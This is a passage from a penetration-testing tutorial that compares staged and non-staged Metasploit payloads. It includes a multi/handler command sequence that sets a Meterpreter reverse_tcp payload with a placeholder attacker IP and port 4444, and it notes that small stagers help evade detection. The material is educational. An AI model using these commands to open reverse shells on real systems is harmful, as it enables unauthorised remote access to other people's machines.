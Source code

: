 These commands show how to set up a listener in Metasploit for both bind and reverse shells.

By understanding the differences and use cases for reverse and bind shells, penetration testers can choose the most appropriate method for gaining remote access to target systems based on the network environment and security measures in place.


# **staged and nonstaged payload** 

In the context of penetration testing, particularly when using tools like Metasploit, payloads can be categorized as staged or non-staged. Understanding the difference between these two types of payloads is crucial for effectively exploiting a target system.

### **Staged Payload**

A staged payload is split into multiple parts: a small initial payload (the stager) and the main payload (the stage). The stager is delivered first, and it sets up a communication channel back to the attacker’s machine. Once the communication channel is established, the main payload is sent over this channel and executed on the target system.

#### How it works:

1. **Stager**: The small initial payload is sent to the target system. Its primary job is to establish a connection back to the attacker's machine.
2. **Stage**: The main payload is sent over the established connection and executed on the target system.

#### Advantages:

- **Smaller Initial Payload**: The stager is typically small, which can help evade detection and bypass size restrictions.
- **Modular**: The staged approach allows for more flexibility and adaptability during the exploitation process.

#### Disadvantages:

- **More Network Traffic**: Since the payload is split into parts, there is additional network traffic, which might be detected by network monitoring systems.
- **Dependency on Stager**: If the stager fails to establish a connection, the main payload will not be delivered.

#### Example:

In Metasploit, a staged payload might be `windows/meterpreter/reverse_tcp`.

bash

Copy code

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST <attacker-ip> set LPORT 4444 run`

### **Non-Staged Payload**

A non-staged payload is a single, self-contained payload that is delivered and executed in one go. There is no intermediate communication or additional stages.
